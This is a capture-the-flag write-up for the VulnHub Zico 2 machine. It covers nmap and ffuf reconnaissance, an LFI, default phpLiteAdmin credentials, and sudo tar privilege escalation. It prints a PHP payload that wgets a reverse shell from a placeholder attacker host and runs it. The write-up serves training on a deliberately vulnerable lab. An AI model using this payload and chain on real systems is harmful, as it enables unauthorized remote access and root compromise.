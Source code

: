 # Zico 2
https://www.vulnhub.com/entry/zico2-1,210/

## Recon

### Nmap Scan
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41708/udp   status
|   100024  1          43168/tcp   status
|   100024  1          44868/udp6  status
|_  100024  1          59995/tcp6  status
43168/tcp open  status  1 (RPC #100024)

### Web Recon
Port 80 shows a simple home page for a website, looking through the site manually and I was able to find an LFI vulnerability under the /view.php?page= endpoint, with this I was able to read the /etc/passwd file and enumerate users on the machine.

But with only the LFI I could not do nothing too serious, so I decided to fuzz the site with ffuf.

### Fuzzing

js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 1ms]
img                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 0ms]
tools                   [Status: 200, Size: 8355, Words: 3291, Lines: 186, Duration: 0ms]
index                   [Status: 200, Size: 7970, Words: 2382, Lines: 184, Duration: 1ms]
view                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
dbadmin                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 1ms]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
package                 [Status: 200, Size: 789, Words: 112, Lines: 30, Duration: 1ms]
server-status           [Status: 403, Size: 293, Words: 21, Lines: 11, Duration: 0ms]

Here the most interesting endpoint was the dbadmin one and when visiting it we are presented with the phpLiteAdmin service. I gained access since the credentials in use where the default ones and I had access to the admin dashboard.

## Exploitation
I was able to get access through the phpLiteAdmin interface since it was vulnerable to a PHP Remote Code Execution vulnerability and I used this to get a reverse shell.
I exploited this by creating a empty database called hack, then I put a single row inside with a default value of:
<?php system("wget <ATTACK_IP>:<ATTACK_PORT>/php-reverse-shell.php 
-O /tmp/reverse-shell.php; php /tmp/reverse-shell.php"); ?>
And now using the LFI I can execute the reverse shell by visiting the directory databases are stored in since we can see on the interface where is stored

### Privilege Escalation
In the machine we can see a user named zico, and in his home directory is a wordpress installation directory, and inside database credentials hardcoded in wp-config.php. When trying to access MySQL we are unsuccessfull but using the same password on the SSH server for the user zico we are successfull.
As the user zico when running sudo -l we get back 2 binaries that can be run as root:
/usr/bin/tar and /usr/sbin/zip, going on GTFObins you can find ways for both of these binaries to be used to escalate privileges, I used the tar one and gained root permissions on the machine